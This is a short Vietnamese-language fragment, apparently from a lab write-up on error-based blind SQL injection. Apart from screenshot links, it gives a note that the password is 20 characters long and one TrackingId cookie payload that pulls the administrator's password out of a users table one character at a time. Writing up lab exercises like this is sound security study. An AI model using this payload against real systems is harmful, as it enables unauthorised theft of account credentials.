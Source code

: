 ![image-20250601103416825](./image/image-20250601103416825.png)



![image-20250601103439444](./image/image-20250601103439444.png)

=> Đến payload len>20 => server OK => condition FALSE => len(password) =20

- Đoán từng kí tự của password: `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

![image-20250601103817181](./image/image-20250601103817181.png)
